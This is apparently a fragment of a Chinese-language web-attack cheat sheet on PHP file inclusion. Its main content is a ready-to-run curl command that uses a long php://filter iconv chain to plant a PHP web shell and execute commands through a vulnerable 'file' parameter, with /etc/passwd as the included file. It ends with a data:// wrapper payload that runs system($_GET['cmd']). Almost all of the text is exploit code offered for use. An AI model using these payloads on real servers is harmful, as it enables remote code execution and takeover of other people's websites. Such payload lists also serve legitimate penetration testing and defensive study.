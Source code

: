   ```powershell
  # 漏洞文件: index.php
  # 漏洞参数: file
  # 执行命令: id
  # 执行 PHP 代码: <?=`$_GET[0]`;;?>
  curl "127.0.0.1:8000/index.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd
  ```

## 包装器 data://

编码为 base64 的有效载荷是 "`<?php system($_GET['cmd']);echo 'Shell done !'; ?>`"。
